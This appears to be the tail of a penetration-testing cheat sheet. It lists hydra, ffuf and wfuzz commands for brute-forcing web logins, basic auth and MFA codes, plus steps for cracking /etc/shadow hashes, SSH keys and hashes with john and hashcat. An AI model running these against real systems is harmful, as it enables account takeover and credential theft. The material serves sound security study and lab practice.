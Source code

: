- `hydra -L username.txt -p password123 10.0.0.1 http-post-form “/login.php:name=^USER^&pwd=password123:Username not found”`

### Bruteforce password
- `ffuf -w rockyou.txt -X POST -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://example.com/login -mr "Invalid password."`

- `hydra -l admin -P password.txt 10.0.0.1 http-post-form “/login.php:name=admin&pwd=^PASS^:Invalid password:H=cookie.session”`

### Bruteforce both username & password
- `ffuf -w username.txt:W1,password.txt:W2 -X POST -d "username=W1&password=W2" -u http://example.com/login -fc 200`

- `hydra -C userpass.txt http-get://example.com/login`

### Basic auth bruteforce
```
hydra -l [username] -P [password wordlists] [ip] -s [port] http-get [url]
hydra -l username -P wordlist -e ns IP http-get /admin/
hydra -l username -P wordlist -e ns -f IP http-get /admin/index.php
```

## Fuzz POST data
### Fuzz for parameter value
- `wfuzz -c -z file,numbers.txt -H "X-Originating-IP: 127.0.0.1" -d "number=FUZZ" --hw 81 http://10.10.60.231:8085/`

### Fuzz for MFA code
- `hydra -l [username] -P [wordlists] 127.0.0.1 http-post-form "/console/mfa.php:code=^PASS^:F=Incorrect code:H=Cookie: PHPSESSID=gckm1it42pqrbk2hikjk1oseos; user=jason_test_account; pwd=violet"`

## Dencode & cracking
### Crack /etc/shadow/hash
1. `copy /etc/shadow and /etc/passwd in 2 different files`

2. `unshadow passwd shadow > unshadowed.txt`

3. `john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt`

### Crack SSH key
1. `ssh2john id_rsa > hash.txt`

2. `john --wordlist=rockyou.txt hash.txt`

### Crack a hash string
- `john --wordlist=rockyou.txt hash.txt`

- `hashcat -a 0 -m 0 {hash string} /usr/share/wordlists/rockyou.txt --force`
